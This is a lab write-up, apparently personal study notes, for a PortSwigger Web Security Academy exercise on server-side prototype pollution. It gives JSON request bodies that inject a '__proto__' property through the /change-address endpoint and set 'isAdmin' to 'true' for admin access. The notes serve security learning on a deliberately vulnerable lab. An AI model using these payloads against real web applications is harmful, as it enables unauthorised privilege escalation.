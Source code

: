 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-5/"}
---
```



---
## Objective: Privilege Escalation


![Pasted image 20250401004337.png](/img/user/Images/Pasted%20image%2020250401004337.png)
We login using the given credentials:

`wiener:peter`

Looking at the fields below, looks like its updating the address. Let's take a look at the request being sent

![Pasted image 20250401003756.png](/img/user/Images/Pasted%20image%2020250401003756.png)
Yes, its goinng through the `/change-address` endpoint and sending a POST request with the data being in JSON.

![Pasted image 20250401003838.png](/img/user/Images/Pasted%20image%2020250401003838.png)
In the response section, we see a property set for our user `isAdmin: false` 

![Pasted image 20250401003856.png](/img/user/Images/Pasted%20image%2020250401003856.png)
We can attempt to test Server-Side Prototype Pollution by polluting the global `Object.prototype`. First send the request to `Repeater` . Then, add our property

```JSON
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar"
	}
}
```

Next send the request and look at the `Response` 

![Pasted image 20250401003915.png](/img/user/Images/Pasted%20image%2020250401003915.png)
Success, we polluted the prototype. Now we can do stuff like change the `isAdmin` property to `true`

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar",
		"isAdmin":"true"
	}
}
```

Look at the `Response` again

![Pasted image 20250401003930.png](/img/user/Images/Pasted%20image%2020250401003930.png)
Success! Now refresh the website page and we have received Admin access